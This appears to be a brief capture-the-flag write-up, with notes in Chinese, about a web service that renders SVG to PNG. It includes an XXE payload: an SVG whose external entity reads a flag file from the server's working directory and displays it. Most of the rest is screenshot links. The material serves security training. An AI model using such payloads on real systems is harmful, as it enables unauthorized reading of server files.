 ![](<./img/Pasted image 20230222093051.png>)

```
/
```

![](<./img/Pasted image 20230222093257.png>)

```
/render
```

![](<./img/Pasted image 20230222093428.png>)

可以将SVG转成PNG，存在XXE的可能性

```svg
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg [
	<!ENTITY flag SYSTEM "file:///proc/self/cwd/flag.txt">
]>
<svg ...>
	...
	<text ...>&flag;</text>
</svg>
```

![](<./img/Pasted image 20230222100657.png>)

#Web #svg #XXE
